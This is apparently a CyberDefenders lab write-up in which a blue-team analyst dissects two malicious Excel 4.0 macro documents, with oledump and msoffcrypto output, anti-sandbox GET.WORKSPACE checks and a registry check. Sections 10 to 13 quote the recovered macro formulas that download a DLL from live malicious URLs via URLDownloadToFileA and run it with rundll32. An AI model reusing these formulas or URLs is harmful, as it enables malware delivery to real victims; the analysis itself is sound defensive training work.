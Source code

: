 ```yaml
---
title: XLM Macros Writeup - CyberDefenders
description: Recently, we have seen a resurgence of Excel-based malicous office
  documents. Howerver, instead of using VBA-style macros, they are using older
  style Excel 4 macros. This changes our approach to analyzing these documents,
  requiring a slightly different set of tools. In this challenge, you, as a
  security blue team analyst will get hands-on with two documents that use Excel
  4.0 macros to perform anti-analysis and download the next stage of the attack.
author: Naimul Islam
date: 2023-08-04
tags:
  - post
  - featured
image: https://cyberdefenders.org/media/terraform/XLM%20Macros/XLM_Macros.jpg
imageAlt: ""
---
```


> Recently, we have seen a resurgence of Excel-based malicous office documents. Howerver, instead of using VBA-style macros, they are using older style Excel 4 macros. This changes our approach to analyzing these documents, requiring a slightly different set of tools. In this challenge, you'll get hands-on with two documents that use Excel 4.0 macros to perform anti-analysis and download the next stage of the attack.

# Sample 1

## 1. What is the document decryption password?

First check if the file is encrypted.

```
root@06c2f2076f07 /shared# msoffcrypto-tool -t -v sample1.bin  
Version: 5.0.1
sample1.bin: encrypted
```

Yes. Now get the pass.

```
root@1ae0377cd588 /shared# msoffcrypto-crack.py sample1.bin  
Password found: VelvetSweatshop
```

## 2. This document contains six hidden sheets. What are their names? Provide the value of the one starting with S.

After getting the password, I decrypted the file.

```
msoffcrypto-tool -p VelvetSweatshop sample1.bin dec-sample1.bin
```

Got sheet information by using oledump with plugin_biff.

```
root@06c2f2076f07 /shared# oledump.py -p ~/DidierStevensSuite/plugin_biff.py --pluginoptions "-x" dec-sample1.bin  
 1:       114 '\x01CompObj'
 2:       368 '\x05DocumentSummaryInformation'
 3:       200 '\x05SummaryInformation'
 4:     92329 'Workbook'
              Plugin: BIFF plugin  
                0085     25 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - SOCWNEScLLxkLhtJp
                0085     25 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - OHqYbvYcqmWjJJjsF
                0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro2
                0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro3
                0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro4
                0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro5
                0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet1
                0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet2
                0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet3
[...]
```

## 3. What URL is the malware using to download the next stage? Only include the second-level and top-level domain. For example, xyz.com.

```
root@1ae0377cd588 /shared# strings dec-sample1.bin | re-search.py -n url
http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exe~
http://rilaer.com/IfAmGZIJjbw
http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exe
```

## 4. What malware family was this document attempting to drop?

Found the sample on malwarebazar

![](https://imgur.com/ZlqOmcd)

# Sample 2

## 5. This document has a very hidden sheet. What is the name of this sheet?

First, checking if the file is encrypted:

```
root@06c2f2076f07 /shared# msoffcrypto-tool -t -v sample2.bin
Version: 5.0.1
sample2.bin: not encrypted
```

Using oledump with plugin_biff plugin:

```
oledump.py sample2.bin -p ~/DidierStevensSuite/plugin_biff.py --pluginoptions "-x"
```

```
[...]
0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet1
0085     18 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, very hidden - CSHykdYHvi
[...]
```

## 6. This document uses reg.exe. What registry key is it checking?

```
[...]
'0207    131 STRING : String Value of a Formula - b\'"VBAWarnings"=dword:00000002\''
[...]
```

## 7.  From the use of reg.exe, what value of the assessed key indicates a sandbox environment?

0x1

## 8. This document performs several additional anti-analysis checks. What Excel 4 macro function does it use?

![](https://imgur.com/undefined)

(part of olevba output)

All these checks are used by the malware to see if its running in a sand boxed environment. Using this [reference](https://malware.news/t/excel-4-macros-get-workspace-reference/38892), This is what the highlighted keys check:

**GET.WORKSPACE(2):** Version of Excel Running
**GET.WORKSPACE(13):** Workspace Width
**GET.WORKSPACE(14):** Workspace Height
**GET.WORKSPACE(19):** If a mouse is present
**GET.WORKSPACE(42):** If Machine can play Sound

## 9. This document checks for the name of the environment in which Excel is running. What value is it using to compare?

Windows

```
FORMULA("=SHARED FMLA at rowx=0 colx=1IF(ISNUMBER(SEARCH(""Windows"",GET.WORKSPACE(1))), ,CLOSE(TRUE))",K7)
```

## 10. What type of payload is downloaded?

DLL

```
FORMULA("=CALL(""Shell32"",""ShellExecuteA"",""JJCCCJJ"",0,""open"",""C:\Windows\system32\rundll32.exe"",""c:\Users\Public\bmjn5ef.html,DllRegisterServer"",0,5)",K11)
```

## 11. What URL does the malware download the payload from?

https[://]ethelenecrace[.]xyz/fbb3

```
FORMULA("=CALL(""urlmon"",""URLDownloadToFileA"",""JJCCJJ"",0,""https://ethelenecrace.xyz/fbb3"",""c:\Users\Public\bmjn5ef.html"",0,0)",K8)
```

## 12. What is the filename that the payload is saved as?

bmjn5ef.html

## 13. How is the payload executed? For example, mshta.exe

rundll32.exe

```
FORMULA("=CALL(""Shell32"",""ShellExecuteA"",""JJCCCJJ"",0,""open"",""C:\Windows\system32\rundll32.exe"",""c:\Users\Public\bmjn5ef.html,DllRegisterServer"",0,5)",K11)
```

## 14. What was the malware family?

After submitting the md5 on VT, got zloader.
